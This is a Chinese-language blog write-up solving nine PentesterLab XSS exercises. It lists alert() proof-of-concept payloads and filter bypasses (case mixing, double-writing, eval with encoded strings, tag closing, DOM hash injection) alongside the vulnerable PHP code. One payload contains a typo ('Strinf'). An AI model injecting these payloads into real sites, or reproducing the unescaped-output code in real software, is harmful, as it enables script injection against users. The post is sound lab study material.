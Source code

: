 ```yaml
---
layout: post
title:  "pantestlab-XSS题解"
date:   2018-11-12 02:28:15 +0700
categories: [XSS,Web安全]
---
```


### 知识储备

常见的XSS测试语句：

```js
<script>alert(1)</script>
<img src='1' onerror='alert(1)'>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
<iframe src=javascript:alert(1)><iframe>
...
```

### 第1题： 无过滤

**payload:**

```js
<script>alert(hey)</script>
```

php代码：

```php
    <?php   
        echo $_GET["name"];  
    ?> 
```

### 第二题：大小写绕过

该题目过滤了小写的`<script> </script>`标签，可通过大小写绕过

**payload:**

```js
<Script>alert(1)</sCript>
<iframe src=javascript:alert(1)><iframe>
<img src='1' onerror='alert(1)'>
<a href=javascript:alert(1)>
...
```

php代码

```php
<?php   
    $name = $_GET["name"];  
    $name = preg_replace("/<script>/", "", $name);  
    $name = preg_replace("/<\/script>/", "", $name);  
    echo $name;  
?>  
```

### 第三题：双写绕过

输入`<Script>alert(1)</sCript>`, 发现`<script>等`标签被过滤了，但是`alert(1)`还在，可知大小写的`<script> </script>`标签都过滤，考虑双写绕过

payload:

```js
<Scr<script>ipt>alert(1)</scr</script>ipt>
当然还有：
<iframe src=javascript:alert(1)><iframe>
<img src='1' onerror='alert(1)'>
...
```

php代码：

```php
<?php   
    $name = $_GET["name"];  
    $name = preg_replace("/<script>/i", "", $name);  
    $name = preg_replace("/<\/script>/i", "", $name);  
    echo $name;  
?>  
```

### 第四题：尝试其他标签`<img>`，`<a>`

输入`<Script>alert(1)</sCript>`,发现会产生ERROR，输入`<> </>`等，但是并没有过滤，那就尝试其他标签，如`<img>`, `<a>`等

payload：

```
<img src='1' onerror='alert(1)'>
<a href=javascript:alert(1)>
...
```

### 第五题：编码绕过

输入`<Script>alert(1)</sCript>`，`<img src='1' onerror='alert(1)'>`， 都会产生error，有的时候，服务器会对一些关键词进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval()来实现。eval()会将编码过的语句解码后再执行。

常见的编码：JS编码、HTML实体编码、url编码...

**解法一：**

alert(1)编码过后就是\u0061\u006c\u0065\u0072\u0074(1)，

payload：

```js
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

**解法二：**

使用`String.fromCharCode()` alert('xxs')的十进制为`97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59`

payload：

```js
<script>eval(Strinf.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59))</script>
...
```

### 第六题：闭合标签

查看源码发现我们输出的hacker作为了一个变量赋值给了a，并且这个变量在`<script>`这个标签中这样的话，只要能够突破这个赋值的变量，就可以利用这个`<script>`这个标签来弹窗了。
payload：

```js
12";</script><img src=1 onerror=alert('xss')><script>
"; b=alert('xss');eval(b);//
...
```

来查看下源码来简单的分析一下:

```js
Hello 
<script>
    var $a= "12";</script><img src=1 onerror=alert('xss')><script>";
</script>
```

payload最前面的11";`</script> `闭合了前面的`<script>`标签最后面的`<script>` 闭合了后面的`<script>`标签中间的`<img src=1 onerror=alert('xss')>`用来触发弹窗事件.

### 第七题：单引号绕过

输入payload：`"; b=alert('xss');eval(b);//` 发现并没有弹窗，吓出一身冷汗，赶紧查看源代码

```js
<script>
	var $a= '"; b=alert('xss');eval(b);//';
</script>
```

得知并没有过滤`alert()`, 过滤了双引号，那么就换成单引号绕过嘛

payload：

```js
'; b=alert('xss');eval(b);//
```

Php代码

```php
<script>  
    var $a = "<?php echo htmlentities($_GET["name"]); ?>";  
<script>  
// htmlentities并没有过滤单引号   
```

### 第八题

通过查看源码：

```js
<form action="/xss/example8.php" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>
```

点击提交后还是跳转到本url进行处理，满腔热血地输入payload`<img src='1' onerror='alert(1)'>`等，结果令人失望，但是发现并没有过滤`<  > _`等符号，想到第七题，再来个闭合标签，构造payload

```
http://192.168.244.140/xss/example8.php/"method="POST"><script>alert(1)</script>
```

并不是在input标签输入，哪里会转移字符的。

查看源码：

```
<form action="/xss/example8.php/"method="POST"><script>alert(1)</script>" method="POST">
```

`/"method="POST">`闭合了之前的标签，然后在后添加`<script>`标签。

### 第九题

在源码中完全找不到hacker的任何字样，于是仔细百度最可疑的地方:

```js
<script>
  document.write(location.hash.substring(1));
</script>
```

`location.hash.substring(1)`函数的作用是输出当前页面url锚部分（从 # 号开始的部分）。

构造payload：

```js
#<script>alert(1)</script>
```

### 后记

在实际运用中漏洞的利用可能不会这么直观，需要我们不断的尝试，甚至组合各种绕过方式来达到目的。